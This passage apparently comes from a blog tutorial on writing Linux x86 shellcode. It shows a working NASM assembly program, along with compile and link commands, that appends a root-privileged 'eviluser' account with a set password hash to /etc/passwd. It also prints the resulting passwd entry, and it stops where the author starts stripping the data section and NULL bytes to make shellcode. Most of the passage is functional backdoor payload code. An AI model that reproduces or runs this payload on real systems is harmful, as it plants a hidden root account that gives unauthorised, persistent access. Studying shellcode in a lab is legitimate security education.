 Compiling:
~~~
$ gcc -o useradd useradd.c
$ cat /etc/passwd
sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
eviluser:$1$xyz$qpXht651W6vzmblmv2oKj/:0:0::/dev/null:/bin/sh
~~~

## adduser.asm
{% highlight nasm %}
; Adds new user to /etc/passwd with root id
global _start

section .text
_start:
        ; int open(const char *pathname, int flags)
        ; ssize_t write(int fd, const void *buf, size_t count)
        ; write - 4
        ; open - 5

        ; call open
        mov eax, 0x5
        mov ebx, filename
        mov ecx, 0x401
        int 0x80
        mov esi,eax ; save file descriptor

        ; call write
        xor eax,eax
        mov eax,0x4
        mov ebx,esi
        mov ecx,newuser
        mov edx,len
        int 0x80

        ; call exit(0)
        xor eax,eax
        mov eax,0x1
        mov ebx,0x0
        int 0x80
section .data
        newuser: db "eviluser:$1$xyz$qpXht651W6vzmblmv2oKj/:0:0::/dev/null:/bin/sh", 0x0a
        len equ $-newuser
        filename: db "/etc/passwd"
{% endhighlight %}

Compiling and Linking:
~~~
root@ubuntu:~/user-add-shlc# nasm -f elf32 useradd.asm -o useradd.o                                               
root@ubuntu:~/user-add-shlc# ld -o useradd useradd.o
~~~

So, we have working C and asm source codes. In order to create shellcode out of assembly code we need to address following issues:
 - `data` section exists, which we don't want.
 - NULL bytes
